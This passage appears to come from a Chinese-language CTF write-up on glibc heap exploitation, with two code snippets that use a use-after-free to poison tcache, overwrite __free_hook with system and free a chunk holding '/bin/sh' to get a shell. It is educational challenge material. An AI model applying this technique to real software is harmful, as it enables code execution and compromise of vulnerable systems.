 [![](assets/1700442753-722d008768c89d3aa70746c2a4d393d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185503-c2ff79b2-8537-1.png)

```plain
free(1)

free(2)
recover(2)
#large bin大小范围的chunk 1、2被释放也会放到tcache bin中

edit(2,p64(free_hook))
#利用uaf达到任意地址写
```

[![](assets/1700442753-e1e1950b7c599ca91843fe18b08064d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185522-ce795628-8537-1.png)

```plain
add(1,0x450,'\n')
add(2,0x450,'\n')
edit(2,p64(system))
edit(1,b'/bin/sh\x00')
#dbg()
free(1)
```
